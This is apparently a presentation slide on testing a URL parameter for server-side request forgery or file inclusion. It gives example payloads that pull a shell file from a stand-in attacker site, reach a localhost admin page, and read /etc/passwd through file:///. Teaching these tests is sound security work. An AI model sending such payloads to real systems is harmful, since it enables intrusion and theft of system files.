

Consider the below request:
GET https://xyz.com/id?content=dashboard.php
This request can be tested using several payloads like:

Loading file content
GET https://xyz.com/id?content=https://evilsite.com/shell.php

Accessing a restricted page
GET https://xyz.com/id?content=http://localhost/administrator
The loopback interface can be used to access the content that is accessible only for the host. This states that we have access to the host, which implies we also have access to the admin page.

Fetching a local file
file:/// protocol handler can be used to fetch a local file.
GET https://xyz.com/id?content=file:///etc/passwd
(2)